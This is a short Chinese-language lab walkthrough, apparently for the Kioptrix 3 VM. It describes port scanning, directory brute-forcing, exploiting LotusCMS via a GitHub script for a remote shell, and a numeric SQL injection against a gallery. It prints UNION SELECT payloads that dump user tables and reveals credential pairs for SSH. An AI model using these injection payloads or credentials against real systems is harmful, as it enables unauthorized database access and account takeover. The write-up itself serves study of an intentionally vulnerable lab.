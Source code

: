 ## 信息收集

是用内核提权
# kio3思路
## nmap扫描端口

## dirsearch字典爆破 查看网址还有啥路径
有一个phpmyadmin 一个图库和一个登录界面

先看看登录界面  是LotusCMS 看看能不能利用历史漏洞 

github找到一个脚本可以攻击这个lotuscms

msf无果 看了很多人wp却可以 很奇怪

在github找到一个sh脚本 加kali可以远程连接

连接成功之后
uname -a
cat /etc/*-release

进行信息收集 查看系统版本和内核版本
## 发现一个图库

里面找到有id的字样 直接开始sql注入 发现是数字型的注入

```
1 order by 6--+

1 union select 1,databases(),version(),4,5,6--+


-1 union select 1,group_concat(table_name) ,3,4,5,6 from information_schema.tables where table_schema=database()--+

-1 union select 1,group_concat(column_name),3,4,5,6 from information_schema.columns where table_schema=database()--+ 

-1 union select 1,group_concat(username),group_concat(password),4,5,6 from gallarific_users--+

-1 union select 1,group_concat(username),group_concat(password),4,5,6 from dev_accounts--+


dreg Mast3r

loneferret starwars
```

sql简要过程 order by要多尝试几个参数测试 后面就是经典语句

## 得到ssh的登录账户 
